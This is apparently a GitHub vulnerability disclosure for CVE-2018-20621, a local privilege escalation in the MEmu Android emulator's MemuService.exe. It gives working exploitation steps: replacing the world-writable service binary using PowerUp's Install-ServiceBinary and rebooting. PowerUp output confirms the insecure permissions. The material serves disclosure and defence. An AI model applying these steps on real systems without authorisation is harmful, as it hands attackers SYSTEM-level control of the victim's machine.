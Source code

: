 # CVE-2018-20621: MEmu Android Emulator Local Privilege Escalation

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** The MemuService.exe service binary is vulnerable to local privilege escalation.    
**Versions Affected:** 6.0.6  
**Researcher:** David Yesland (https://twitter.com/daveysec @daveysec)  
**Disclosure Link:** NA  
**NIST CVE Link:** NA

## Proof-of-Concept Exploit
### Description
The MemuService.exe service binary is vulnerable to local privilege escalation through binary planting due to insecure permissions set at install time. This allows code to be run as NT AUTHORITY/SYSTEM.


### Usage/Exploitation
Rename `C:\Program Files\Microvirt\MEmu\MemuService.exe` to `MemuService.exe.old`. Then using PowerShellEmpire PowerUp run `Install-ServiceBinary -Name 'MEmuSVC'`. Reboot.  

### Detail
```
ServiceName                     : MEmuSVC
Path                            : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFile                  : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'MEmuSVC'
CanRestart                      : False
```
